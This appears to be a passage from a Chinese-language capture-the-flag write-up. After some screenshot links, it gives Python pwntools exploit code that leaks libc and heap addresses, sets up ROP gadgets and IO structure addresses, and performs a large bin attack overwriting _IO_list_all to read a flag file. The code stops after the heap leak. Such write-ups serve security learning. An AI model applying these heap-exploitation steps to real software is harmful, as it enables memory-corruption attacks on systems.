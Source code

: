    ![image-20240903215122766](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032151871.png)

   ![image-20240903205017690](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032050766.png)

   ![image-20240903205021933](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032050990.png)

   ![image-20240903205745353](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032057438.png)



### 利用：

1. 先泄漏堆地址和libc地址：

   ```py
   
   # 泄漏libc
   add(0x510,0)    #0
   add(0x530,15)    #15 隔开
   add(0x520,1)    #1
   add(0x530,15)    #15
   edit(15,b"./flag\x00\x00")
   
   free(1)
   add(0x530,15)    #15 将chunk1放入large bin
   show(1)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1E4030
   success("libc_addr==>"+hex(libc_base))
   debug()
   pause()
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"   + hex(IO_wfile_jumps_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002858f
   pop_rdx_r12_ret=libc_base + 0x0000000000114161
   pop_rax_ret=libc_base + 0x0000000000045580
   pop_rsi_ret=libc_base + 0x000000000002ac3f
   ret= libc_base + 0x0000000000026699
   
   
   # 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
   free(0)
   edit(1,p64(addr)*2 + p64(0) + p64(IO_list_all_addr-0x20))
   add(0x530,15)    #15 将chunk0放入large bin 触发large bin attack
   
   show(1)
   p.recv()
   heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x290
   ```
